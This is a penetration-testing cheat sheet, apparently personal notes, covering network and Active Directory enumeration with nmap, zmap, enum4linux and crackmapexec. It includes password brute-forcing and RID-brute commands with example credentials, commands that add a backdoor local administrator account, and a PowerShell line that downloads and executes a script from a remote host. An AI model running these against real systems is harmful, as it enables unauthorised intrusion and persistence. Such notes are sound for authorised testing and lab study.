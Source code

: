 # First Steps

## Network Enumeration

```bash
nmap -sP -p $ip #ping scan
nmap -Pn -n -T4 -v3 $ip #quick scan
rustscan -a $ip
```

## Domain Name

```bash
cme smb $network_ip
```

## Domain Controllers

They are usually DNS Servers. They have usually LDAP listening port 389.

```bash
nmap -p53,389 $network_ip
```

## Enumerate alive machines

```bash
sudo zmap -i <iface> -P 2 --probe-module=icmp_echoscan -B 1M --max-targets=10000000 -o targets_rfc1918.txt $network_ips
```

## Enumerate services

### DNS

```bash
# test for dns attacks
dnsenum $domain -f /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt --dnsserver $dns_server_ip > dnsenum.txt
```

### `enum4linux`

Tool for enumerating information from Windows and Samba systems.

#### Basic commands

```bash
# Default command that you will use almost always
enum4linux -a 0.0.0.0
​
# list groups
enum4linux -G 0.0.0.0
​
# list windows shares
enum4linux -S 0.0.0.0
```

### `crackmapexec` | https://github.com/byt3bl33d3r/CrackMapExec

Post-exploitation tool that helps automate assessing the security of large Active Directory networks.

#### Installation

https://mpgn.gitbook.io/crackmapexec/getting-started/installation/installation-on-unix

```bash
# only in upgraded Windows servers from 2003 - No auth attempt
# to get password policy, minimum length, account lockout threshold
crackmapexec smb domain/IP --pass-pol -u '' -p ''
crackmapexec smb domain/IP -u USER -p WORDLIST	
# The usernames with RID greater than 1000 into a username file
crackmapexec smb vulnet.thm -u robot -p '' --rid-brute | grep  SidTypeUser	
# Enumerate a user share
crackmapexec smb 10.10.10.161 -u svc-alfresco -p s3rvice --shares
```

### UO | Users Enumeration

```powershell
GetADUsers.py $domain/ -dc-ip $ip

# More infos with rpcclient
rpcclient -U "" -N $ip

# Get all of the OUs in a domain
Get-ADOrganizationalUnit -Filter 'Name -like "*"' | Format-Table Name, DistinguishedName -A

### Create a new user in admin groupe 

# username:password = anon:p3nT3st!
net user anon p3nT3st! /add
net localgroup administrators anon /add

net user anon p3nT3st! /add;net localgroup administrators anon /add

If you cannot import module start a webserver and
IEX(New-Object Net.Webclient).downloadstring('http://<IP>/Powershell.ps1')
```
